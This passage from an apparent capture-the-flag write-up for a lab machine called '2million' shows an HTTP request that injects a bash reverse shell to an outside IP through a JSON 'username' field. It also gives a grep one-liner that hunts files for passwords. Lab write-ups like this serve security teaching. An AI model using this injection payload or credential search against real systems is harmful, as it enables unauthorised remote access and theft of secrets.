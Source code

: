 The full request is the following: 


```html
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=6s1sblkhjjpoq9t9ms5b8pv48b
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 79
{
    "username": "; bash -c 'bash -i >& /dev/tcp/10.10.14.160/1234 0>&1'"
}
```


## User escalation from www-data to admin

Now that we have have foothold in the system, lets look for any file that might be interesting. Using grep, we can search for any file containing the "pass" string:

```sh
grep -arin -o -E '(\w+\W+){0,10}pass(\w+\W+){0,10}' .
```

![image](Screenshot_16.png)
